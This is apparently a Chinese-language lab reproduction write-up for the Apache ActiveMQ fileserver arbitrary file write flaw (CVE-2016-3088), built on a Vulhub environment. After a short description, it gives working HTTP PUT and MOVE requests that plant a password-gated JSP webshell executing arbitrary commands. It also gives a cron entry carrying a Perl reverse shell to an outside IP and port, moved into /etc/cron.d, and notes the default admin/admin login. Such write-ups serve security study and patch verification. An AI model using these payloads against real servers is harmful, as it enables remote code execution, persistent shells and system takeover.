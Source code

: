 # Apache ActiveMQ任意文件写入漏洞 CVE-2016-3088

## 漏洞描述

ActiveMQ的web控制台分三个应用，admin、api和fileserver，其中admin是管理员页面，api是接口，fileserver是储存文件的接口；admin和api都需要登录后才能使用，fileserver无需登录。

fileserver是一个RESTful API接口，我们可以通过GET、PUT、DELETE等HTTP请求对其中存储的文件进行读写操作，其设计目的是为了弥补消息队列操作不能传输、存储二进制文件的缺陷，但后来发现：

1. 其使用率并不高
2. 文件操作容易出现漏洞

所以，ActiveMQ在5.12.x~5.13.x版本中，已经默认关闭了fileserver这个应用（你可以在conf/jetty.xml中开启之）；在5.14.0版本以后，彻底删除了fileserver应用。

## 影响版本

```
Apache ActiveMQ 5.0.0 – 5.13.2
ActiveMQ在5.12.x~5.13.x版本中，默认关闭了fileserver这个应用
5.14.0版本以后，彻底删除fileserver
```

## 环境搭建

Vulhub搭建及运行漏洞环境：

```
docker-compose build
docker-compose up -d
```

环境监听61616端口和8161端口，其中8161为web控制台端口，本漏洞就出现在web控制台中。

访问`http://your-ip:8161/`看到web页面，说明环境已成功运行。

## 漏洞复现

本漏洞出现在fileserver应用中，漏洞原理其实非常简单，就是fileserver支持写入文件（但不解析jsp），同时支持移动文件（MOVE请求）。所以，我们只需要写入一个文件，然后使用MOVE请求将其移动到任意位置，造成任意文件写入漏洞。

文件写入有几种利用方法：

1. 写入webshell
2. 写入cron或ssh key等文件
3. 写入jar或jetty.xml等库和配置文件

写入webshell的好处是，门槛低更方便，但前面也说了fileserver不解析jsp，admin和api两个应用都需要登录才能访问，所以有点鸡肋；写入cron或ssh key，好处是直接反弹拿shell，也比较方便，缺点是需要root权限；写入jar，稍微麻烦点（需要jar的后门），写入xml配置文件，这个方法比较靠谱，但有个鸡肋点是：我们需要知道activemq的绝对路径。

分别说一下上述几种利用方法。

### 写入webshell

前面说了，写入webshell，需要写在admin或api应用中，而这俩应用都需要登录才能访问。

默认的ActiveMQ账号密码均为`admin`，首先访问`http://your-ip:8161/admin/test/systemProperties.jsp`，查看ActiveMQ的绝对路径：

![image-20220221144006543](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202211440648.png)

然后上传webshell：

```
PUT /fileserver/1.txt HTTP/1.1
Host: 192.168.174.128:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 374

<%
    if("023".equals(request.getParameter("pwd"))){
        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
        int a = -1;
        byte[] b = new byte[2048];
        out.print("<pre>");
        while((a=in.read(b))!=-1){
            out.println(new String(b));
        }
        out.print("</pre>");
    }
%>
```

移动到web目录下的api文件夹（`/opt/activemq/webapps/api/s.jsp`）中。如果Burpsuite发包不成功，使用Firefox进行修改后发送。

![image-20220221161155286](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202211611379.png)

```
MOVE /fileserver/1.txt HTTP/1.1
Destination: file:///opt/activemq/webapps/api/shell.jsp
Host: 192.168.174.128:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
```

shell.jsp已经上传成功：

![image-20220221153448172](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202211534227.png)



通过webshell执行命令

![image-20220221154607001](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202211546071.png)

### crontab反弹shell

这是一个比较稳健的方法。首先使用Burpsuite上传cron配置文件（注意，换行一定要`\n`，不能是`\r\n`，否则crontab执行会失败）：

```
PUT /fileserver/1.txt HTTP/1.1
Host: 192.168.174.128:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 248

*/1 * * * * root /usr/bin/perl -e 'use Socket;$i="192.168.174.128";$p=2333;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

再通过Firefox修改数据包将其移动到`/etc/cron.d/root`：

```
MOVE /fileserver/1.txt HTTP/1.1
Destination: file:///etc/cron.d/root
Host: 192.168.174.128:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 0
```

![image-20220221161242402](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202211612498.png)

如果上述两个请求都返回204了，说明写入成功。等待反弹shell：

![image-20220221161312608](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202211613664.png)

这个方法需要ActiveMQ是root运行，否则也不能写入cron文件。

### 写入jetty.xml或jar

理论上我们可以覆盖jetty.xml，将admin和api的登录限制去掉，然后再写入webshell。

有的情况下，jetty.xml和jar的所有人是web容器的用户，所以相比起来，写入crontab成功率更高一点。

尚未测试。